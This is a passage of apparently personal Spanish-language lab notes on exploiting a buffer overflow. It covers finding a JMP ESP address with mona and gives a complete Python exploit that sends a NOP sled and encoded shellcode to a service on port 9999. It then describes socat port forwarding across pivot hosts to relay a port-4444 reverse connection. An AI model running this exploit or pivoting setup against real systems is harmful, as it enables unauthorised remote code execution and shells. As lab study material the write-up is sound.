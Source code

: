 Una vez generado, buscamos el *opcode* de "nop" con `mona` para añadirle unos cuantos "nops" antes del *shellcode*:
![[Pasted image 20240831144844.png]]

Como vemos es el valor de `\x90` por lo que lo añadiremos unos 32 antes del *shellcode*. 

Finalmente, solo nos falta encontrar una dirección de memoria para asignárselo al ESP que contenga la instrucción "JMP ESP" para que se ejecute nuestro *shell code*. 
Así que lo buscamos con `mona`:
![[Pasted image 20240831145626.png]]

Como vemos lo encontramos en `0x311712F3`.

> [!NOTE] Esta dirección habrá que girarla en el código python

Por lo que unificamos todo en el código Python:
```python
import socket

IP = "10.15.12.129"
# IP = "192.168.159.137"

PORT = 9999

offset = 524
eip = b"\xf3\x12\x17\x31" # 0x311712f3
# shellcode = b'BBBB'
shellcode =  b"\x90"*32
shellcode += b"\xba\xd3\x2f\x6f\x3e\xdd\xc1\xd9\x74\x24\xf4"
shellcode += b"\x5e\x31\xc9\xb1\x12\x31\x56\x12\x83\xee\xfc"
shellcode += b"\x03\x85\x21\x8d\xcb\x18\xe5\xa6\xd7\x09\x5a"
shellcode += b"\x1a\x72\xaf\xd5\x7d\x32\xc9\x28\xfd\xa0\x4c"
shellcode += b"\x03\xc1\x0b\xee\x2a\x47\x6d\x86\xa6\xb8\x81"
shellcode += b"\xd6\xdf\xc4\x99\xc7\x43\x40\x78\x57\x1d\x02"
shellcode += b"\x2a\xc4\x51\xa1\x45\x0b\x58\x26\x07\xa3\x0d"
shellcode += b"\x08\xdb\x5b\xba\x79\x34\xf9\x53\x0f\xa9\xaf"
shellcode += b"\xf0\x86\xcf\xff\xfc\x55\x8f"
data = b'A'*offset + eip + shellcode

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((IP, PORT))
    s.send(data)
```


Ahora únicamente no falta completar el túnel del puerto 4444. Por lo que en la máquina "192.168.159.147" utilizamos `socat` para que todo el tráfico que le llegue por el puerto 4444 lo mande a nuestra máquina "192.168.159.131" por el puerto 4444:
![[Pasted image 20240831155432.png]]

Seguidamente en la máquina "10.10.0.129" (192.168.100.128) hacemos que todo el tráfico por el puerto 4444 lo mande a la 10.10.0.128 (192.168.159.147) por el puerto 4444:
![[Pasted image 20240831165358.png]]
